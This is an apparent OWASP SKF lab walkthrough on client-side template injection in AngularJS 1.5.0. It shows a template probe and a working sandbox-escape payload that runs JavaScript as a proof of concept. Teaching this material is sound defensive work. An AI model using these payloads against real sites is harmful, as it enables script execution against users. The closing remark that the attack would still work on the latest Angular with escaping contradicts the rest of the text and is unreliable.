 # Client Side Template Injection - CSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.ejs` page in the source code, we can see that a variable `<%= CSTI %>` is used in the page

```html
<center><p style="font-size:2em;"><%= CSTI %></p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

We are going to use the same payload of the XSS lab

```html
">
<script>
  alert("XSS");
</script>
```

Unfortunately the alert does not trigger :(

![](../../.gitbook/assets/python/CSTI/1.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

How do we get XSS?

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!![](../../.gitbook/assets/python/CSTI/2.png)

Bingo!!

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox
- forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](../../.gitbook/assets/python/CSTI/3.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
